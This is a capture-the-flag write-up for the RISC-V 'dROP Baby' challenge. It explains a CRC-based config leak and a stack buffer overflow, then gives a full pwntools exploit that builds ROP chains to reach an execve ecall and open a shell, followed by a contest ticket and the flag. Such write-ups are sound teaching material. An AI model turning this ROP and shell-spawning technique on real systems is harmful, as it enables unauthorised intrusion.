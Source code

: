 # dROP Baby

## Challenge

We are given a 32-bit RISC-V binary.
The binary is being run on an Ubuntu x86\_64 system through QEMU.

### Checksec

```
    Arch:     em_riscv-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
```

## Solution

Unlike the previous challenge, we are not given any leaks.

There is a similar synchronisation and mode selection system as the previous RISC-V challenge, but with different values.

The lengths of the `read` calls are read from a server.ini config file, which we are not provided.

Each mode requires that the last 4 bytes of our message is the crc32 of the message contents.
However, without knowing the length of the message, this is not simple to pass.

The 0xb1 mode allows us to leak the config dictionary.
It also requires a checksum to match, but we can send a message where every 4 bytes is the crc32 of the previous bytes.
Thus, as long as the actual read length is a multiple of 4, it will print the config dictionary.
If it is not a multiple of 4, we can attempt this again at an offset and succeed within 4 tries.

Once we leak the dictionary, we get the following values:

```
Application Name : Baby dROP
A1_MSG_LEN : 40
A2_LSG_LEN : 10
B1_MSG_LEN : 20
B2_MSG_LEN : 300
CC_MSG_LEN : 25
ZY_MSG_LEN : 0
SILENT_ERRORS : TRUE
```

Comparing these values to the stack buffer sizes, we see that the `B2_MSG_LEN` is much greater than the buffer in the 0xb2 mode.
There is no canary, so we can use this to overwrite the saved return address.

Unlike the previous challenge, NX is enabled, so we cannot jump to shellcode on the stack.
However, PIE is disabled, so we can use ROP gadgets fromm the binary.

Many RISC-V gadgets use a lot of stack gadgets, so our first ROP chain simply calls the input function again, but with a longer length, so we can send a larger payload.

Our second ROP chain uses a combination of gadgets to set up an execve ecall and spawn a shell.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host drop.quals2023-kah5Aiv9.satellitesabove.me --port 5300
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = 'drop-baby'

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'drop.quals2023-kah5Aiv9.satellitesabove.me'
port = int(args.PORT or 5300)
ticket = b'ticket{alpha130613papa4:GM669oQhW-YRnqeTRmIkI-d1MFfLq-N4LVGpMTm3JhWZoe0tG_yiCwUZ8XgjY29fTQ}'

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return process(['qemu-riscv32', '-g', '1234', exe] + argv, env={'FLAG': 'test{flag}'}, *a, **kw)
    else:
        return process(['qemu-riscv32', exe] + argv, env={'FLAG': 'test{flag}'}, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    io.sendlineafter(b'Ticket please:\n', ticket)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

io.recvuntil(b'Exploit me!')

# DUMP CONFIG
io.send(b'\xde\xad\xbe\xef')
io.send(b'\xb1')
msg = b''
for i in range(5):
    msg += p32(crc.crc_32(msg))
io.send(msg)
print((io.recvuntil(b'-\n') + io.recvuntil(b'-\n')).decode())

"""
   2a2a0:   4322                    lw  t1,8(sp)
   2a2a2:   4f12                    lw  t5,4(sp)
   2a2a4:   5426                    lw  s0,104(sp)
   2a2a6:   48c2                    lw  a7,16(sp)
   2a2a8:   4832                    lw  a6,12(sp)
   2a2aa:   4e82                    lw  t4,0(sp)  
   2a2ac:   50b6                    lw  ra,108(sp)
   2a2ae:   5496                    lw  s1,100(sp)
   2a2b0:   5906                    lw  s2,96(sp)  
   2a2b2:   49f6                    lw  s3,92(sp) 
   2a2b4:   4a66                    lw  s4,88(sp) 
   2a2b6:   4b46                    lw  s6,80(sp)    
   2a2b8:   4bb6                    lw  s7,76(sp) 
   2a2ba:   4c26                    lw  s8,72(sp)    
   2a2bc:   4c96                    lw  s9,68(sp) 
   2a2be:   4d06                    lw  s10,64(sp)
   2a2c0:   5df2                    lw  s11,60(sp)
   2a2c2:   87d6                    mv  a5,s5
   2a2c4:   4ad6                    lw  s5,84(sp) 
   2a2c6:   4701                    li  a4,0      
   2a2c8:   4681                    li  a3,0
   2a2ca:   4601                    li  a2,0                             
   2a2cc:   859a                    mv  a1,t1
   2a2ce:   857a                    mv  a0,t5                                        
   2a2d0:   6165                    addi    sp,sp,112
   2a2d2:   8e82                    jr  t4
"""

"""
   1a848:   4632                    lw  a2,12(sp)
   1a84a:   45a2                    lw  a1,8(sp)
   1a84c:   4512                    lw  a0,4(sp)
   1a84e:   40f2                    lw  ra,28(sp)
   1a850:   6105                    addi    sp,sp,32
   1a852:   8782                    jr  a5
"""

"""
   3839c:   00000073            ecall
   383a0:   8082                    ret
"""

gadget1 = 0x2a2a0
gadget2 = 0x1a848
do_b2 = 0x00010f54
read = 0x0002184e
ecall = 0x3839c
buf = 0x000713a0

io.send(b'\xde\xad\xbe\xef')
io.send(b'\xb2')

io.send(flat({0x74: [

    gadget1,

    flat({
        0: do_b2, # jr
        4: 0x200, # a0
        84: read, # s5
        108: gadget1, # ret
    }, length=112),

]}, length=300))

io.send(flat({0x74: [

    gadget1,

    flat({
        0: gadget2, # jr
    }, length=112),

    flat({
        4: 0, # a0
        8: buf, # a1
        12: 8, # a2
        28: gadget1, # ret
    }, length=32),

    flat({
        0: ecall, # jr
        4: buf, # a0
        8: 0, # a1
        16: 0xdd, # a7
    }, length=112),

]}, length=0x200))

io.send(b'/bin/sh\x00')

io.interactive()
```

## Flag

```
flag{alpha130613papa4:GPkXUAE33nBipQPXIl8qmWCePP-MwZrSZteipeJvr3_EY9mDG9ahe3V4G4GRXakUHoNIEEt8FTT1XcgdOeYjj24}
```
